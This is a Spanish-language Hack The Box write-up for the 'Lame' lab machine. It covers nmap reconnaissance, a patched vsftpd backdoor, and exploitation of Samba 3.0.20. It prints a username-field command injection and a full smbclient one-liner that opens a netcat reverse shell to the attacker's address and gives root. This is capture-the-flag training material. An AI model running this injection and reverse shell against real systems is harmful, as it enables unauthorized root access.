 ```yaml
---
layout: single
title: HTB-Lame
excerpt: "WriteUp con metodología de la máquina Lame."
date: 2021-12-13
classes: wide
header:
  icon: /assets/images/hackthebox.webp
  teaser_home_page: true
  teaser: /assets/images/WriteUps/Lame.png
categories:
  - WriteUps
tags:
  - HTB

---
```



<center><img src='/assets/images/WriteUps/Lame.png'></center>

IP -> 10.10.10.3
# Reconocimiento
## Nmap
Utilizamos [nmap](/Nmap/) y obtenemos los siguientes resultados.
[Lame Nmap Result](/assets/files/WriteUps/Lame.txt)

## ftp
Vemos que el script ftp-anon de [nmap](/Nmap/) nos reporta que está operativo el inicio de sesión anonimo. Pero al conectarnos no encontramos nada. 
Buscamos la versión del ftp (vsftpd 2.3.4) que está corriendo y encontramos que tiene un backdoor. Pero al probar a explotarlo, vemos que no es vulnerable, lo habrán parcheado.

## Samba
Buscamos la version y servicio (Samba 3.0.20) en **searchsploit** y vemos que el campo de usuario es vulnerable.

```bash
smb: \> logon "/=`nohup <cmd>`"
```

Aunque al intentar conectarnos con [smbclient](/SMB/) nos da **"NEGOTIATION FAILED"**. Para conectarnos y que funcion tenemos que utilizar:
```bash
smbclient -L 10.10.10.3 -N --option="client min protocol=NT1"
```


# Explotación 
## Samba

```bash
smbclient //10.10.10.3/tmp -N --option="client min protocol=NT1" -c 'logon "/=`nohup nc -e /bin/bash 10.10.14.10 443`"'
```

Entramos como root directamente.

> user.txt

> root.txt



---

Escrito el 13-12-2021 a las 09:09 pm por creep33.
